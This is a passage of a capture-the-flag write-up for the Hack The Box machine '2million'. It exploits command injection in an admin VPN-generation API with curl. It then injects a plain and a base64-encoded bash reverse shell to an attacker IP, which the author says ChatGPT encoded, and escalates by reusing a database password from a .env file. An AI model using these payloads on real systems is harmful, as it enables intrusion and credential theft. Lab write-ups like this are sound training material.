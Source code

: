 ```bash
curl -sX POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=5smrjjh2f709i5vgijph6a78aq" --header "Content-Type: application/json" | jq
```

![CTF](/images/2milion/uservpn.png)
username parameter is missing. Here admin can generate VPN for any user, so let’s give a random username.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=5smrjjh2f709i5vgijph6a78aq" --header "Content-Type: application/json" --data '{"username":"pokto"}'
```

![CTF](/images/2milion/itgenerate.png)
After sending the above command, I see that a VPN configuration file was generated for the user pokto. The username can be any.  It might be possible to inject malicious code in the username field and gain command execution on the remote system. Let’s try.

![CTF](/images/2milion/try.png)
I tried injecting the command, ;id; after username and that command is successful. So there comes the command injection vulnerability.

Let's start a Netcat listener to catch a shell.

```bash
nc -lvnp 4444
```

We can then get a shell with the following payload.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.61/4444 0>&1'
```

When I directly add that bash, my connection was redirected. 

![CTF](/images/2milion/redirect.png)
so I ask chatgpt and it give me base64 encoded payload for the above payload and it work.

```bash
curl -sX POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=5smrjjh2f709i5vgijph6a78aq" --header "Content-Type: application/json" --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42MS80NDQ0IDA+JjE= | base64 -d | bash;"}'
```

![CTF](/images/2milion/connection.png)
I am in shell as www-data. My aim is to get admin shell. Let’s check each and every files and directory for the password.

![CTF](/images/2milion/password.png)
I found the hidden file .env, there is a DB_PASSWORD. Most of the time db password can be the password for the admin. Let’s reuse this password for admin and login from ssh. In nmap I found that ssh port is open.

![CTF](/images/2milion/admin.png)
Boom…I got the admin shell.
